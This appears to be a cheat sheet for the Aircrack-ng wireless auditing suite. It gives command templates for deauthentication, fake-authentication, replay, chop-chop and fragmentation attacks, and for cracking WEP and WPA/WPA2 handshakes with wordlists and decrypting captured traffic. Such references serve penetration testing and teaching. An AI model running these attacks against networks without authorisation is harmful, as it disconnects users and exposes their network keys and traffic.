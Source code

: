 ### aireplay-ng Essentials

```bash
# Deauthentication attack
aireplay-ng -0 <NUM_DEAUTH> -a <AP_BSSID> [-c <CLIENT_MAC>] wlan0mon

# Fake authentication (WEP/Open networks)
aireplay-ng -1 0 -e <ESSID> -a <AP_BSSID> -h <YOUR_MAC> wlan0mon

# ARP replay attack (WEP)
aireplay-ng -3 -b <AP_BSSID> -h <YOUR_MAC> wlan0mon

# Interactive packet replay
aireplay-ng -2 -b <AP_BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon

# Chop Chop attack
aireplay-ng -4 -b <AP_BSSID> -h <YOUR_MAC> wlan0mon

# Fragmentation attack
aireplay-ng -5 -b <AP_BSSID> -h <YOUR_MAC> wlan0mon
```

---

### aircrack-ng Essentials

```bash
# Crack WEP (needs sufficient IVs)
aircrack-ng <CAPTURE_FILE>

# Crack WPA/WPA2 handshake with dictionary
aircrack-ng -w <WORDLIST> -b <BSSID> <CAPTURE_FILE>

# Adjust "fudge factor" for WEP
aircrack-ng -f <FACTOR> <CAPTURE_FILE>
```

---

### Other Aircrack-NG Tools

- **airolib-ng**: Manage PMK databases for WPA precomputation
- **airdecap-ng**: Decrypt a WEP/WPA/WPA2 traffic capture offline
- **airgraph-ng**: Generate relationship graphs (CAPR / CPG) from airodump CSV
    

```bash
# Decrypt capture with known key
airdecap-ng -e <ESSID> -p <PASSWORD> <CAPTURE_FILE>

# Convert cap to hashcat .hccapx
cap2hccapx <CAPTURE_FILE>.cap <OUTPUT>.hccapx
```

---